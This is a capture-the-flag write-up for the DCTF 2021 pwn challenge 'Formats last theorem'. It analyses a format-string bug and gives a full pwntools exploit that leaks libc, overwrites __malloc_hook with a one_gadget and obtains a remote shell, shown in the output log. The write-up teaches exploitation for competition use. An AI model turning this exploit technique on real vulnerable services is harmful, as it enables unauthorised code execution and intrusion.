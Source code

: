 # DCTF 2021

## Formats last theorem

> 400
> 
> I dare you to hook the malloc
> 
> `nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482`
>
> [formats\_last\_theorem](formats_last_theorem) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _malloc_ _malloc-hook_ _write-what-where_ _format-string_


## Summary

The challenge description turned this into a 5-minute challenge.  Without this hint, I think many would have been lost in an endless loop.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place sans canary, but since there's no `return`, it does not matter.


### Decompile with Ghidra

```c
void vuln(void)
{
  long in_FS_OFFSET;
  char local_78 [104];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  do {
    puts("I won\'t ask you, what your name is. It\'s getting kinda old at this point");
    __isoc99_scanf("%100s",local_78);
    puts("you entered");
    printf(local_78);
    puts("");
    puts("");
  } while( true );
}
```

Endless loop with endless format-string exploits.

The plan is simple, use `printf` to leak libc, then, per the challenge description, use `printf` _hook the malloc_, and then `printf` again to [trigger the hook](http.s://github.com/Naetw/CTF-pwn-tips#use-printf-to-trigger-malloc-and-free).


> The libc version was provided in the form of a `Dockerfile`.  I've included it (`libc.so.6`) as part of this writeup since a future update to Ubuntu 18.04 may change the version of libc.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./formats_last_theorem')

if args.REMOTE:
    p = remote('dctf-chall-formats-last-theorem.westeurope.azurecontainer.io', 7482)
    libc = ELF('./libc.so.6')
else:
    import signal
    p = process(('stdbuf -i0 -o0 -e0 '+binary.path).split(),preexec_fn=lambda: signal.signal(signal.SIGALRM, signal.SIG_IGN))
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# one_gadget
libc.symbols['gadget'] = [0x4f3d5, 0x4f432, 0x10a41c][1]
```

> one_gadget if available is the easy win here.  The second of the three possible options works just fine.

Standard pwntools setup, however I added `gadget` symbol to libc, and have my local process ignoring SIGALRM.

> No `setvbuf` in challenge binary, so I had to prepend `stdbuf`.

```python
p.sendlineafter('point\n','%23$p')
p.recvuntil('entered\n')
__libc_start_main = int(p.recvline().strip(),16) - 231
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

The above provides the leak, _but why `23`?_

To find libc in the stack and leak it just use GDB (with an Ubuntu 18.04 machine/container, see the challenge included [Dockerfile](Dockerfile)):

```
0x00007fffffffe300│+0x0000: 0x0000000070243625 ("%6$p"?)	 ← $rsp, $rdi
0x00007fffffffe308│+0x0008: 0x0000000000000000
0x00007fffffffe310│+0x0010: 0x0000000000000000
0x00007fffffffe318│+0x0018: 0x0000000000000000
0x00007fffffffe320│+0x0020: 0x0000000000000009
0x00007fffffffe328│+0x0028: 0x00007ffff7dd5660  →  <dl_main+0> push rbp
0x00007fffffffe330│+0x0030: 0x00007fffffffe398  →  0x00007fffffffe468  →  0x00007fffffffe6e0  →  "/pwd/datajerk/dctf2021/formats_last_theorem/format[...]"
0x00007fffffffe338│+0x0038: 0x0000000000f0b5ff
0x00007fffffffe340│+0x0040: 0x0000000000000001
0x00007fffffffe348│+0x0048: 0x000055555540081d  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe350│+0x0050: 0x00007ffff7de3b40  →  <_dl_fini+0> push rbp
0x00007fffffffe358│+0x0058: 0x0000000000000000
0x00007fffffffe360│+0x0060: 0x00005555554007d0  →  <__libc_csu_init+0> push r15
0x00007fffffffe368│+0x0068: 0xb049ba36a07c5200
0x00007fffffffe370│+0x0070: 0x00007fffffffe380  →  0x00005555554007d0  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe378│+0x0078: 0x00005555554007c4  →  <main+24> mov eax, 0x0
0x00007fffffffe380│+0x0080: 0x00005555554007d0  →  <__libc_csu_init+0> push r15
0x00007fffffffe388│+0x0088: 0x00007ffff7a03bf7  →  <__libc_start_main+231> mov edi, eax
```

Before counting down to `__libc_start_main+231` for the leak, you'll need to know the offset, to find that just send `%nn$p` where `nn > 0`, and keep incrementing `nn` until the output matches the intput, e.g.:

```
I won't ask you, what your name is. It's getting kinda old at this point
%6$p
you entered
0x70243625
```

It's a match, the offset is `6`.  That'd put `__libc_start_main+231` at parameter `23` (look at the stack above and just count down).

With libc location known, all that is left is to _hook the malloc_:

```python
p.sendlineafter('point\n',fmtstr_payload(6,{libc.sym.__malloc_hook:libc.sym.gadget},write_size='short'))
p.sendlineafter('point\n','%65536c')
p.recvuntil('entered\n')
p.interactive()
```

Standard pwntools format-string to set the hook with our gadget.  The `write_size='short'` reduces the size of the payload from 120 bytes to 64 (we only have 100 bytes to work with).

After the hook set, just `printf` something large to trigger it.

> If you're new to format-string exploits read this: [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).
>
> Many examples of how to use pwntools `fmtstr_payload`: [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary).

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/formats_last_theorem/formats_last_theorem'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf-chall-formats-last-theorem.westeurope.azurecontainer.io on port 7482: Done
[*] '/pwd/datajerk/dctf2021/formats_last_theorem/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f22bb2f8000
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{N0t_all_7h30r3ms_s0und_g00d}
```

